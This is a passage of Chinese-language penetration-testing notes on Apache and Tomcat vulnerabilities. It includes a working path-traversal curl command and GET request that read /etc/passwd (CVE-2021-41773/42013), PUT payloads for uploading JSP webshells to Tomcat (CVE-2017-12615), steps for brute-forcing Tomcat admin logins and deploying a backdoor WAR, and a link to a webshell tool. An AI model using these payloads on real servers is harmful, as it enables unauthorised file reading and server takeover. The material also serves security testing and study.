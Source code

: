 Apache HTTP Server 2.4.49、2.4.50版本对路径规范化所做的更改中存在一个路径穿越漏洞，攻击者可利用该漏洞读取到Web目录外的其他文件，如系统配置文件、网站源码等，甚至在特定情况下，攻击者可构造恶意请求执行命令，控制服务器。

```
curl -v --path-as-is 'http://xx.xx.xx.xx/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'

GET /icons/.%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## 3、cve-2017-15715 文件解析

Apache HTTPD是一款HTTP服务器。其2.4.0~2.4.29版本存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

4、cve_2017_9798 价值不高

5、cve_2018_11759 价值不高

6、cve_2021_37580 插件问题

# 四、中间件-Tomcat


弱口令&文件上传&文件包含等

## 1、弱口令猜解

https://github.com/BeichenDream/Godzilla

配置不当导致后台弱口令，可通过上传jsp压缩包改名的war拿shell

-先爆破弱口令

-后门压缩zip改war

-上传war访问链接

## 2、CVE-2017-12615 文件上传

当存在漏洞的Tomcat运行在Windows/Linux主机上， 且启用了HTTP PUT请求方法（ 例如， 将readonly初始化参数由默认值设置为false） ， 攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的JSP的webshell文件，JSP文件中的恶意代码将能被服务器执行， 导致服务器上的数据泄露或获取服务器权限。

影响版本:Apache Tomcat 7.0.0 - 7.0.79

```
PUT /x.jsp/

PUT /xx.jsp%20

PUT /xxx.jsp::$DATA
```

## 3、cve_2020_1938 文件包含

Apache Tomcat AJP协议（默认8009端口）由于存在实现缺陷导致相关参数可控，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp目录下的任意文件。若服务器端同时存在文件上传功能，攻击者可进一步结合文件包含实现远程代码的执行。
